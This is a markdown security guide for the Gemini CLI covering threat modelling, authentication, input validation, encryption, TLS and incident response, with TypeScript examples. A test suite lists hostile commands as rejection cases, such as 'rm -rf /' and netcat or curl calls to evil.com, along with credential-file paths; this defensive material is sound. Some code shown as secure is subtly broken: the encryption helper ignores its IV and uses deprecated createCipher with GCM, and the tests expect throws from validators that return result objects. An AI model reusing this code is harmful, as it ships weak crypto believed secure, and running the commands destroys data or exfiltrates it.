

# Security Guide

## Overview

This document outlines the security policies, procedures, and best practices for the Gemini CLI project. Security is a foundational concern that spans development, deployment, and operation phases.

## Table of Contents

- [Security Philosophy](#security-philosophy)
- [Threat Model](#threat-model)
- [Security Architecture](#security-architecture)
- [Authentication and Authorization](#authentication-and-authorization)
- [Input Validation and Sanitization](#input-validation-and-sanitization)
- [Data Protection](#data-protection)
- [Network Security](#network-security)
- [Code Security](#code-security)
- [Dependency Security](#dependency-security)
- [Deployment Security](#deployment-security)
- [Incident Response](#incident-response)
- [Security Testing](#security-testing)
- [Compliance](#compliance)

## Security Philosophy

### Core Principles

1. **Security by Design**: Security considerations integrated from project inception
2. **Defense in Depth**: Multiple layers of security controls
3. **Principle of Least Privilege**: Minimal access rights for all components
4. **Fail Secure**: Systems fail to a secure state
5. **Transparency**: Open about security practices and incident handling

### Security Goals

- **Confidentiality**: Protect user data and API credentials
- **Integrity**: Ensure data and code are not tampered with
- **Availability**: Maintain service availability and prevent DoS
- **Accountability**: Audit trails for security-relevant events
- **Non-repudiation**: Reliable attribution of actions

## Threat Model

### Assets

1. **User Data**: Conversation history, personal information, project files
2. **API Credentials**: Gemini API keys, OAuth tokens, service account keys
3. **System Access**: Local file system, shell command execution
4. **Code Integrity**: Source code, extensions, MCP servers
5. **Network Communications**: API requests/responses, update mechanisms

### Threat Actors

1. **Malicious Users**: Users attempting to abuse the system
2. **Compromised Dependencies**: Third-party packages with malicious code
3. **Network Attackers**: Man-in-the-middle, eavesdropping
4. **Local Attackers**: Users with local system access
5. **Supply Chain Attackers**: Compromised development/distribution infrastructure

### Attack Vectors

#### Local System Attacks

- **File System Access**: Unauthorized access to sensitive files
- **Command Injection**: Malicious command execution via shell tools
- **Privilege Escalation**: Gaining elevated system privileges
- **Data Exfiltration**: Stealing local files or credentials

#### Network Attacks

- **Man-in-the-Middle**: Intercepting API communications
- **API Abuse**: Unauthorized or excessive API usage
- **Credential Theft**: Stealing API keys or tokens
- **Data Interception**: Eavesdropping on network traffic

#### Code Injection Attacks

- **Extension Malware**: Malicious extensions or MCP servers
- **Dependency Compromise**: Compromised npm packages
- **Update Attacks**: Malicious updates or patches
- **Configuration Injection**: Malicious configuration changes

## Security Architecture

### Security Layers



### Security Boundaries

1. **User Boundary**: Input validation and sanitization
2. **Process Boundary**: Sandboxing and permission controls
3. **Network Boundary**: TLS encryption and certificate validation
4. **File System Boundary**: Path traversal prevention and access controls
5. **Extension Boundary**: Extension isolation and permission models

## Authentication and Authorization

### Authentication Methods

#### 1. OAuth 2.0 (Recommended)

```typescript
interface OAuthConfig {
  clientId: string;
  clientSecret?: string; // Not stored locally
  redirectUri: string;
  scopes: string[];
  authUrl: string;
  tokenUrl: string;
}

class OAuthManager {
  async authenticate(config: OAuthConfig): Promise<AuthResult> {
    // PKCE for public clients
    const codeVerifier = generateCodeVerifier();
    const codeChallenge = generateCodeChallenge(codeVerifier);

    const authUrl = buildAuthUrl(config, codeChallenge);
    const authCode = await openBrowserAndWaitForCode(authUrl);

    const tokens = await exchangeCodeForTokens(authCode, codeVerifier);
    return this.storeTokensSecurely(tokens);
  }
}
```

#### 2. API Key Authentication

```typescript
class ApiKeyManager {
  private static readonly API_KEY_PATTERN = /^[A-Za-z0-9_-]{32,128}$/;

  static validateApiKey(apiKey: string): boolean {
    return this.API_KEY_PATTERN.test(apiKey);
  }

  static secureStore(apiKey: string): void {
    // Use system keychain/credential manager
    const keychain = getSystemKeychain();
    keychain.store('gemini-cli-api-key', apiKey);
  }

  static secureRetrieve(): string | null {
    const keychain = getSystemKeychain();
    return keychain.retrieve('gemini-cli-api-key');
  }
}
```

### Authorization Model

#### Permission System

```typescript
enum Permission {
  READ_FILES = 'files:read',
  WRITE_FILES = 'files:write',
  EXECUTE_COMMANDS = 'commands:execute',
  NETWORK_ACCESS = 'network:access',
  EXTENSION_INSTALL = 'extensions:install',
}

interface SecurityPolicy {
  allowedPaths: string[];
  blockedPaths: string[];
  allowedCommands: string[];
  networkRestrictions: NetworkPolicy;
  permissions: Permission[];
}

class PermissionManager {
  checkPermission(operation: string, resource: string): boolean {
    const policy = this.getCurrentPolicy();
    return this.evaluatePermission(policy, operation, resource);
  }
}
```

## Input Validation and Sanitization

### Input Categories

1. **User Messages**: Chat input from users
2. **File Paths**: File system operation targets
3. **Shell Commands**: Commands executed via shell tools
4. **Configuration Data**: Settings and configuration values
5. **Extension Code**: Third-party extension content

### Validation Framework

```typescript
class InputValidator {
  static validateUserMessage(message: string): ValidationResult {
    // Length limits
    if (message.length > MAX_MESSAGE_LENGTH) {
      return { valid: false, error: 'Message too long' };
    }

    // Content filtering
    if (this.containsMaliciousPatterns(message)) {
      return { valid: false, error: 'Potentially malicious content detected' };
    }

    return { valid: true };
  }

  static validateFilePath(path: string): ValidationResult {
    // Path traversal prevention
    const normalizedPath = normalize(path);
    if (normalizedPath.includes('../') || normalizedPath.startsWith('/')) {
      return { valid: false, error: 'Invalid path detected' };
    }

    // Restricted paths
    const restrictedPaths = ['/etc', '/root', '/System'];
    if (
      restrictedPaths.some((restricted) =>
        normalizedPath.startsWith(restricted),
      )
    ) {
      return { valid: false, error: 'Access to restricted path denied' };
    }

    return { valid: true };
  }

  static validateShellCommand(command: string): ValidationResult {
    // Command allowlist
    const allowedCommands = ['ls', 'cat', 'grep', 'find', 'head', 'tail'];
    const baseCommand = command.split(' ')[0];

    if (!allowedCommands.includes(baseCommand)) {
      return { valid: false, error: 'Command not in allowlist' };
    }

    // Dangerous pattern detection
    const dangerousPatterns = ['&&', '||', '|', ';', '>', '<', '`', '$'];
    if (dangerousPatterns.some((pattern) => command.includes(pattern))) {
      return { valid: false, error: 'Potentially dangerous command detected' };
    }

    return { valid: true };
  }
}
```

### Sanitization Patterns

```typescript
class InputSanitizer {
  static sanitizeForLog(data: unknown): unknown {
    const sensitive = ['password', 'token', 'key', 'secret', 'credential'];
    return this.maskSensitiveFields(data, sensitive);
  }

  static sanitizeFilePath(path: string): string {
    return path
      .replace(/\.\.\//g, '') // Remove path traversal
      .replace(/[<>"|*?]/g, '') // Remove invalid filename characters
      .slice(0, 255); // Limit length
  }

  static sanitizeShellCommand(command: string): string {
    return command
      .replace(/[;&|`$(){}[\]]/g, '') // Remove command injection characters
      .trim()
      .slice(0, 1000); // Limit length
  }
}
```

## Data Protection

### Data Classification

1. **Public**: Non-sensitive project information
2. **Internal**: Development and operational data
3. **Confidential**: User conversations, API keys
4. **Restricted**: Authentication tokens, private keys

### Encryption at Rest

```typescript
class DataEncryption {
  private static readonly ENCRYPTION_ALGORITHM = 'aes-256-gcm';

  static encrypt(data: string, key: Buffer): EncryptedData {
    const iv = crypto.randomBytes(16);
    const cipher = crypto.createCipher(this.ENCRYPTION_ALGORITHM, key);
    cipher.setAAD(Buffer.from('gemini-cli-v1'));

    let encrypted = cipher.update(data, 'utf8', 'hex');
    encrypted += cipher.final('hex');

    const authTag = cipher.getAuthTag();

    return {
      encrypted,
      iv: iv.toString('hex'),
      authTag: authTag.toString('hex'),
    };
  }

  static decrypt(encryptedData: EncryptedData, key: Buffer): string {
    const decipher = crypto.createDecipher(this.ENCRYPTION_ALGORITHM, key);

    decipher.setAAD(Buffer.from('gemini-cli-v1'));
    decipher.setAuthTag(Buffer.from(encryptedData.authTag, 'hex'));

    let decrypted = decipher.update(encryptedData.encrypted, 'hex', 'utf8');
    decrypted += decipher.final('utf8');

    return decrypted;
  }
}
```

### Secure Storage

```typescript
class SecureStorage {
  private keyring: Keyring;

  constructor() {
    // Use system keychain/credential manager
    this.keyring = new Keyring('gemini-cli');
  }

  async storeCredentials(
    service: string,
    credentials: Credentials,
  ): Promise<void> {
    const encrypted = DataEncryption.encrypt(
      JSON.stringify(credentials),
      this.getEncryptionKey(),
    );

    await this.keyring.setPassword(service, JSON.stringify(encrypted));
  }

  async retrieveCredentials(service: string): Promise<Credentials | null> {
    try {
      const encryptedData = await this.keyring.getPassword(service);
      if (!encryptedData) return null;

      const encrypted = JSON.parse(encryptedData);
      const decrypted = DataEncryption.decrypt(
        encrypted,
        this.getEncryptionKey(),
      );

      return JSON.parse(decrypted);
    } catch (error) {
      logger.error('Failed to retrieve credentials', { service, error });
      return null;
    }
  }
}
```

## Network Security

### TLS Configuration

```typescript
class NetworkClient {
  private httpsAgent: https.Agent;

  constructor() {
    this.httpsAgent = new https.Agent({
      rejectUnauthorized: true,
      checkServerIdentity: this.validateServerIdentity,
      secureProtocol: 'TLSv1_2_method',
      ciphers: [
        'ECDHE-RSA-AES128-GCM-SHA256',
        'ECDHE-RSA-AES256-GCM-SHA384',
        'ECDHE-RSA-AES128-SHA256',
        'ECDHE-RSA-AES256-SHA384',
      ].join(':'),
    });
  }

  private validateServerIdentity(
    hostname: string,
    cert: any,
  ): Error | undefined {
    // Additional certificate validation
    if (this.isRevoked(cert)) {
      return new Error('Certificate revoked');
    }

    if (!this.isValidDomain(hostname, cert.subject.CN)) {
      return new Error('Hostname mismatch');
    }

    return undefined;
  }
}
```

### API Request Security

```typescript
class SecureApiClient {
  async makeSecureRequest<T>(url: string, options: RequestOptions): Promise<T> {
    // Request signing
    const signature = this.signRequest(options);
    options.headers['X-Request-Signature'] = signature;

    // Request timestamp
    options.headers['X-Request-Timestamp'] = Date.now().toString();

    // Nonce for replay protection
    options.headers['X-Request-Nonce'] = crypto.randomUUID();

    // Rate limiting
    await this.rateLimiter.acquire();

    try {
      const response = await this.httpClient.request<T>(url, options);
      return this.validateResponse(response);
    } catch (error) {
      this.handleSecurityError(error);
      throw error;
    }
  }

  private signRequest(options: RequestOptions): string {
    const payload = JSON.stringify({
      method: options.method,
      url: options.url,
      headers: options.headers,
      body: options.body,
    });

    return crypto
      .createHmac('sha256', this.getApiSecret())
      .update(payload)
      .digest('hex');
  }
}
```

## Code Security

### Static Analysis

```typescript
// Security linting rules
const securityRules = {
  'no-eval': 'error',
  'no-new-func': 'error',
  'no-implied-eval': 'error',
  'no-script-url': 'error',
  'security/detect-buffer-noassert': 'error',
  'security/detect-child-process': 'warn',
  'security/detect-disable-mustache-escape': 'error',
  'security/detect-eval-with-expression': 'error',
  'security/detect-no-csrf-before-method-override': 'error',
  'security/detect-non-literal-fs-filename': 'warn',
  'security/detect-non-literal-regexp': 'warn',
  'security/detect-non-literal-require': 'warn',
  'security/detect-possible-timing-attacks': 'warn',
  'security/detect-pseudoRandomBytes': 'error',
  'security/detect-unsafe-regex': 'error',
};
```

### Secure Coding Patterns

```typescript
// ✅ Secure: Parameterized queries
class DatabaseQuery {
  async findUser(email: string): Promise<User | null> {
    const query = 'SELECT * FROM users WHERE email = ?';
    return this.db.query(query, [email]);
  }
}

// ✅ Secure: Input validation
class FileHandler {
  readFile(filename: string): Promise<string> {
    // Validate input
    const validation = InputValidator.validateFilePath(filename);
    if (!validation.valid) {
      throw new SecurityError(validation.error);
    }

    // Sanitize path
    const safePath = path.resolve(this.basePath, filename);

    // Verify path is within allowed directory
    if (!safePath.startsWith(this.basePath)) {
      throw new SecurityError('Path traversal detected');
    }

    return fs.readFile(safePath, 'utf8');
  }
}

// ✅ Secure: Constant-time comparison
class AuthValidator {
  validateSignature(provided: string, expected: string): boolean {
    return crypto.timingSafeEqual(
      Buffer.from(provided, 'hex'),
      Buffer.from(expected, 'hex'),
    );
  }
}
```

## Dependency Security

### Package Validation

```typescript
class DependencyValidator {
  async validatePackage(
    packageName: string,
    version: string,
  ): Promise<ValidationResult> {
    // Check known vulnerabilities
    const vulnCheck = await this.checkVulnerabilities(packageName, version);
    if (!vulnCheck.clean) {
      return { valid: false, error: 'Known vulnerabilities found' };
    }

    // Verify package integrity
    const integrityCheck = await this.verifyPackageIntegrity(
      packageName,
      version,
    );
    if (!integrityCheck.valid) {
      return { valid: false, error: 'Package integrity verification failed' };
    }

    // Check license compatibility
    const licenseCheck = await this.validateLicense(packageName);
    if (!licenseCheck.compatible) {
      return { valid: false, error: 'Incompatible license' };
    }

    return { valid: true };
  }

  private async checkVulnerabilities(
    name: string,
    version: string,
  ): Promise<VulnerabilityResult> {
    const auditResult = await npm.audit(`${name}@${version}`);
    return {
      clean: auditResult.vulnerabilities.length === 0,
      vulnerabilities: auditResult.vulnerabilities,
    };
  }
}
```

### Supply Chain Security

```bash
# Package verification workflow
npm audit --audit-level high
npm outdated
npm ls --depth=0

# Verify package signatures (when available)
npm verify

# Check for known malicious packages
npx check-my-packages
```

## Deployment Security

### Build Security

```typescript
// Secure build process
class SecureBuildPipeline {
  async build(): Promise<BuildResult> {
    // Verify source integrity
    await this.verifySourceIntegrity();

    // Dependency security scan
    await this.runSecurityAudit();

    // Build with security hardening
    const buildOptions = {
      minify: true,
      sourceMap: false, // No source maps in production
      optimization: true,
      securityHeaders: true,
    };

    const result = await this.runBuild(buildOptions);

    // Sign build artifacts
    await this.signArtifacts(result.artifacts);

    return result;
  }

  private async signArtifacts(artifacts: string[]): Promise<void> {
    for (const artifact of artifacts) {
      const signature = await this.createSignature(artifact);
      await fs.writeFile(`${artifact}.sig`, signature);
    }
  }
}
```

### Update Security

```typescript
class SecureUpdateManager {
  async checkForUpdates(): Promise<UpdateInfo[]> {
    const updateEndpoint = 'https://api.gemini-cli.dev/updates';

    // Verify endpoint certificate
    const response = await this.secureClient.get(updateEndpoint);

    // Verify update signature
    const updates = response.data;
    for (const update of updates) {
      if (!(await this.verifyUpdateSignature(update))) {
        throw new SecurityError('Invalid update signature');
      }
    }

    return updates;
  }

  async applyUpdate(update: UpdateInfo): Promise<void> {
    // Download with integrity verification
    const updateFile = await this.downloadUpdate(update.url, update.hash);

    // Verify signature before applying
    if (!(await this.verifyUpdateSignature(updateFile))) {
      throw new SecurityError('Update signature verification failed');
    }

    // Apply update atomically
    await this.applyUpdateAtomically(updateFile);
  }
}
```

## Incident Response

### Security Event Detection

```typescript
class SecurityEventMonitor {
  private eventBus: EventEmitter;

  constructor() {
    this.eventBus = new EventEmitter();
    this.setupEventHandlers();
  }

  private setupEventHandlers(): void {
    // Authentication failures
    this.eventBus.on('auth:failure', (event) => {
      this.handleAuthFailure(event);
    });

    // Suspicious file access
    this.eventBus.on('file:access:suspicious', (event) => {
      this.handleSuspiciousFileAccess(event);
    });

    // Command injection attempts
    this.eventBus.on('command:injection:detected', (event) => {
      this.handleCommandInjection(event);
    });
  }

  private async handleAuthFailure(event: SecurityEvent): Promise<void> {
    // Rate limiting
    await this.applyRateLimit(event.source);

    // Alert if threshold exceeded
    if (await this.isFailureThresholdExceeded(event.source)) {
      await this.sendSecurityAlert({
        type: 'BRUTE_FORCE_ATTACK',
        source: event.source,
        timestamp: event.timestamp,
      });
    }
  }
}
```

### Incident Response Plan

1. **Detection**: Automated monitoring and alerting
2. **Assessment**: Determine scope and impact
3. **Containment**: Isolate affected systems
4. **Eradication**: Remove threats and vulnerabilities
5. **Recovery**: Restore normal operations
6. **Lessons Learned**: Post-incident analysis

### Security Alerting

```typescript
interface SecurityAlert {
  id: string;
  type: SecurityAlertType;
  severity: 'low' | 'medium' | 'high' | 'critical';
  description: string;
  source: string;
  timestamp: Date;
  metadata: Record<string, unknown>;
}

class SecurityAlerting {
  async sendAlert(alert: SecurityAlert): Promise<void> {
    // Log security event
    securityLogger.warn('Security alert', alert);

    // Rate limit alerts to prevent spam
    if (await this.isRateLimited(alert.type)) {
      return;
    }

    // Send to monitoring systems
    if (alert.severity === 'critical') {
      await this.sendCriticalAlert(alert);
    }

    // Store for analysis
    await this.storeSecurityEvent(alert);
  }
}
```

## Security Testing

### Automated Security Testing

```typescript
// Security test suite
describe('Security Tests', () => {
  describe('Input Validation', () => {
    it('should reject malicious file paths', () => {
      const maliciousPaths = [
        '../../../etc/passwd',
        '/etc/shadow',
        'C:\\Windows\\System32',
        '..\\..\\windows\\system32',
      ];

      for (const path of maliciousPaths) {
        expect(() => validateFilePath(path)).toThrow('Invalid path detected');
      }
    });

    it('should sanitize shell commands', () => {
      const maliciousCommands = [
        'ls; rm -rf /',
        'cat file && curl evil.com',
        'ls | nc evil.com 1234',
        'ls `rm file`',
      ];

      for (const cmd of maliciousCommands) {
        expect(() => validateShellCommand(cmd)).toThrow(
          'Potentially dangerous command detected',
        );
      }
    });
  });

  describe('Authentication', () => {
    it('should reject invalid API keys', () => {
      const invalidKeys = [
        '', // Empty
        'abc', // Too short
        'key with spaces', // Invalid characters
        '12345'.repeat(100), // Too long
      ];

      for (const key of invalidKeys) {
        expect(ApiKeyManager.validateApiKey(key)).toBe(false);
      }
    });
  });
});
```

### Penetration Testing

Regular security assessments should include:

1. **Static Code Analysis**: Automated source code security scanning
2. **Dynamic Testing**: Runtime security testing with live system
3. **Dependency Scanning**: Third-party package vulnerability assessment
4. **Network Testing**: API endpoint and network security testing
5. **Social Engineering**: Phishing and social attack simulations

## Compliance

### Security Standards

- **OWASP Top 10**: Address common web application vulnerabilities
- **NIST Cybersecurity Framework**: Risk management and security controls
- **ISO 27001**: Information security management standards
- **SOC 2 Type II**: Service organization control reports

### Privacy Regulations

- **GDPR**: European Union privacy regulation compliance
- **CCPA**: California Consumer Privacy Act compliance
- **PIPEDA**: Canadian privacy law compliance
- **Regional Laws**: Local privacy and data protection requirements

### Security Certifications

Target certifications for enterprise adoption:

- **SOC 2 Type II**: Service organization controls
- **ISO 27001**: Information security management
- **FedRAMP**: Federal risk and authorization management
- **CSA STAR**: Cloud Security Alliance certification

## Security Monitoring

### Metrics and KPIs

```typescript
interface SecurityMetrics {
  authenticationFailures: number;
  suspiciousFileAccess: number;
  commandInjectionAttempts: number;
  vulnerabilityCount: number;
  securityPatchesPending: number;
  meanTimeToDetection: number;
  meanTimeToResponse: number;
}

class SecurityDashboard {
  async getSecurityMetrics(timeRange: TimeRange): Promise<SecurityMetrics> {
    return {
      authenticationFailures: await this.countEvents('auth:failure', timeRange),
      suspiciousFileAccess: await this.countEvents(
        'file:suspicious',
        timeRange,
      ),
      commandInjectionAttempts: await this.countEvents(
        'command:injection',
        timeRange,
      ),
      vulnerabilityCount: await this.getVulnerabilityCount(),
      securityPatchesPending: await this.getPendingPatches(),
      meanTimeToDetection: await this.calculateMTTD(timeRange),
      meanTimeToResponse: await this.calculateMTTR(timeRange),
    };
  }
}
```

## Security Resources

### Internal Resources

- Security incident response playbook
- Vulnerability disclosure policy
- Security training materials
- Threat intelligence feeds

### External Resources

- [OWASP Guidelines](https://owasp.org/)
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
- [Node.js Security Best Practices](https://nodejs.org/en/docs/guides/security/)
- [npm Security Documentation](https://docs.npmjs.com/about-audit)

### Security Contacts

- **Security Team**: security@gemini-cli.dev
- **Vulnerability Reports**: security-reports@gemini-cli.dev
- **Emergency Contact**: security-emergency@gemini-cli.dev

---

Security is everyone's responsibility. All team members should be familiar with these guidelines and actively contribute to maintaining and improving our security posture.
